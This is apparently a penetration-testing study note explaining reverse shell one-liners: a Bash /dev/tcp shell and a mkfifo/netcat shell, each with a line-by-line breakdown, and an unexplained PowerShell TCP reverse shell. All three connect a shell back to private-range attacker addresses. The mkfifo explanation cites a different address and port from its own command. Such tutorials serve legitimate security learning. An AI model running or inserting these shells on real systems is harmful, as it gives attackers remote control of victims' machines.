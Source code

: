 #### Linux - Bash (/dev/tcp): 

```bash
'bash -c "bash -i >& /dev/tcp/10.13.13.54/9999 0>&1"'
```

This particular one is setting up a connection through /dev/tcp/ method which is a file used in UNIX-LIKE system for communication over TCP for shells:

- `bash -c`; will execute a command through bash.

- `bash -i >&`; will initialize bash and send all the output to the shell with >&.

- `/dev/tcp`; is a file used by UNIX like systems in communication over shells.

- `0>&1`:  This redirects the standard input (`stdin`, file descriptor `0`) to come from the same place as the standard output (`stdout`, file descriptor `1`). Why: This setup allows the attacker to send input (commands) to the shell from their machine. The commands are sent through the TCP connection, received by the shell, and executed.

---
#### Linux - Bash (mkfifo):

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.13.54 2222 >/tmp/f
```

This particular one is setting up a connection through pipe method:
- `rm /tmp/f`; First it will remove any pipe called f so it will not duplicate itself.

- `mkfifo /tmp/f`; Then it will make a named pipe(FIFO) /tmp/f. A named pipe is used for inter-process communication. In this case, it will be used to redirect input and output between processes.

- `cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.10.10 1234`; this is the actual reverse shell initiation. It will cat the contents of /tmp/f pipe the output to the /bin/sh and -i initialize a shell, 2>&1 will send all the errors to the same shell output, so both the standard ok and errors are printed. And then it will pipe the output to a nc connection.

- `/tmp/f`; will finish the loop.

---

#### Powershell:

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"
```


---

## Bind Shell

Another type of shell is a `Bind Shell`. Unlike a `Reverse Shell` that connects to us, we will have to connect to it on the `targets'` listening port.
